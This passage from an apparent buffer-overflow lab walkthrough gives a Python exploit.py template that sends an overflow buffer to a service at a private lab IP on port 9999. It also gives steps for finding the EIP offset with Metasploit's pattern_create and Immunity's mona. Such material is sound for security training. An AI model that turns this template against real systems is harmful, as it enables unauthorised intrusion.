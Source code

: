  exploit.py Example 2:
 
```
import socket

ip = "10.10.96.43"
port = 9999

prefix = "username"
offset = 0   
overflow = "A" * offset
retn = ""   
padding = ""
payload = ""
postfix = ""

buffer = overflow + retn + padding + payload + postfix

s = socket.socket(socket.AF_INET, socket.SOCK_STREAM)

try:
 s.connect((ip, port))
 print("Sending buffer...")
 s.recv(1024)
 s.send(bytes(prefix + "\r", "latin-1"))
 s.recv(1024)
 s.send(bytes(buffer + "\r\n", "latin-1"))
 print("Done!")
except:
 print("Could not connect.")
```
  
#### Step 6: Generate cyclic pattern with this command:

```
/usr/share/metasploit-framework/tools/exploit/pattern_create.rb -l [PATTERN-LENGTH]
```
*Make PATTERN-LENGTH 400 bytes longer than the string that crashed the application while fuzzing*

#### Step 7: Paste output from Step 6 into payload variable of exploit.py
  
#### Step 8: Restart application and run the program in Immunity, Run exploit.py from attack machine
 
#### Step 9: After exploit.py crashes the application, run this command in Immunity to determine offset:
 
 ```
 !mona findmsp -distance [PATTERN-LENGTH]
 ```
*PATTERN-LENGTH is the same as PATTERN-LENGTH from Step 6*

*Look for a line in the output that states: EIP contains normal pattern : ... (offset XXXX)*
 